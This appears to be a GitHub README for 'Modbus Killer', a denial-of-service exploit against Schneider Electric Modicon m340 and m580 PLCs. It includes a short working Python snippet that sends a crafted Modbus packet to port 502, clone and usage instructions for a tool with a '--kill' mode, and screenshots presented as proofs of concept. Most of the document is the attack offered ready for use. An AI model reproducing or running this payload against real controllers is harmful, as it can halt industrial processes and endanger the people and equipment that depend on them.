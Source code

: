 #  [Tool] Modbus Killer
## [Schneider] Dos Modicon via Modbus Injection

PLC Modicon line ("m340" & "m580") suffer a denial of services upon receiving a simple request to the "modbus" protocol.


	[*] Exploit Title:       "Dos Modicon via Modbus Injection" 
	[*] CVE:                 2018-???? <-- soon !!!
	[*] CVSS Base Score v3:  8.6 / 10
	[*] CVSS Vector String:  AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H  
	[*] Date:                2/01/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              Schneider Electric
	[*] devices(tested):     PLC Modicon m340 (v2.0 > v2.8) & modicom m580


![m340](screenshot/m340.png) ![m580](screenshot/m580.jpg)

### Exploit:

```
	import socket 

	client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	client.connect(("192.168.0.101",502)) 
	client.send( "\x44\x62\x00\x00\x00\x06\x00\x5a\x00\x20\x00\x00") 
	client.close()

```

***

# TOOL: "Modbus Killer"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/modbusKiller.git
	usr@pwn:~$ cd modbusKiller

## help

	usr@pwn:~/$ python mdKiller.py --help

	usage: mdKiller.py [-h] [-v] [--sid SLAVEID] --host HOST [--port PORT]
                   [--check] [--kill]

	[+] DOS Modicon via Modbus Injection. ( CVE: 2018-???? )

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --sid SLAVEID  Slave ID (default 00)
	  --host HOST    Host
	  --port PORT    Port (default 502)
	  --check        Show device info
	  --kill         Check availability

	[+] Demo: mdKiller.py --sid 00 --host <target> [--check|--kill ]

***

## POCs:

[+] Poc device VULN:

	[*] CHECK

![m340](screenshot/1_check.png) 	
	

	[*] KILL

![m340_kill](screenshot/2_kill.png)


	[*] RE-CHECK

![m340_rc](screenshot/3_reCheck.png) 	



[+] Poc device NO VULN:

	[*] CHECK

![m340_ck](screenshot/noVuln/1_check_a.png) 	
	

	[*] KILL

![m340_kill](screenshot/noVuln/2_kill_a.png) 	

